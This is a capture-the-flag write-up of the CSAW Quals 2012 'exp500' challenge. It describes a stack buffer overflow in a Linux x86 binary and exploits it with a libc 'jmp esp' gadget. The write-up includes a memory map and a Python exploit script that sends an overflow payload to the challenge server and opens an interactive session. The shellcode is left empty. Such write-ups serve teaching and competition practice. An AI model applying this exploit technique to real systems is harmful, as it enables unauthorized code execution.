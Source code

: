 ```yaml
---
title: 'CSAW Quals 2012 &mdash; exp500'
layout: post
authors:
  - Alex Reece <awreece>
categories:
  - Pwn
ctf: CSAW CTF Quals
year: 2012
---
```

## Overview

[challenge1][1] is an Linux x86 binary that has a buffer overflow. Using information disclosed from another problem, we can use libc gadget to jump to our shellcode.

<!--more-->

## Writeup

After reversing through the standard network / privilege dropping code, we find an interesting function `q_generate` that has a buffer overflow.  Here we take advantage of having a shell on the box (via exp400) to get some useful information: we get a copy of libc to search for gadgets and the base offset where libc is loaded.

```
$ cat /proc/self/maps
08048000-08053000 r-xp 00000000 08:01 786434     /bin/cat
08053000-08054000 r-xp 0000a000 08:01 786434     /bin/cat
08054000-08055000 rwxp 0000b000 08:01 786434     /bin/cat
08055000-08076000 rwxp 00000000 00:00 0          [heap]
b7e31000-b7e32000 rwxp 00000000 00:00 0
b7e32000-b7fd1000 r-xp 00000000 08:01 1572883    /lib/i386-linux-gnu/libc-2.15.so
b7fd1000-b7fd3000 r-xp 0019f000 08:01 1572883    /lib/i386-linux-gnu/libc-2.15.so
b7fd3000-b7fd4000 rwxp 001a1000 08:01 1572883    /lib/i386-linux-gnu/libc-2.15.so
b7fd4000-b7fd7000 rwxp 00000000 00:00 0
b7fdb000-b7fdd000 rwxp 00000000 00:00 0
b7fdd000-b7fde000 r-xp 00000000 00:00 0          [vdso]
b7fde000-b7ffe000 r-xp 00000000 08:01 1572880    /lib/i386-linux-gnu/ld-2.15.so
b7ffe000-b7fff000 r-xp 0001f000 08:01 1572880    /lib/i386-linux-gnu/ld-2.15.so
b7fff000-b8000000 rwxp 00020000 08:01 1572880    /lib/i386-linux-gnu/ld-2.15.so
bffdf000-c0000000 rw-p 00000000 00:00 0          [stack]
```

We also observe that NX is disabled, so we use a `jmp esp` gadget from libc to jump to our shellcode.

```
#!/usr/bin/python
import struct
import socket
import telnetlib
import sys
import string

shellcode = ""

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# s.connect(('127.0.0.1', 12345))
s.connect(('128.238.66.213', 12345))
f = s.makefile('rw', bufsize=0)

libc_offset = 0xb7e32000

jmp_esp = 0x0014853F + libc_offset

first_part =  "D"*124
second_part = "A"*int(0x38)  + "BBBB" + struct.pack("I", jmp_esp) + shellcode

payload = first_part + second_part + "\n"

f.write(payload)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp500.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-5.46.51-PM.png
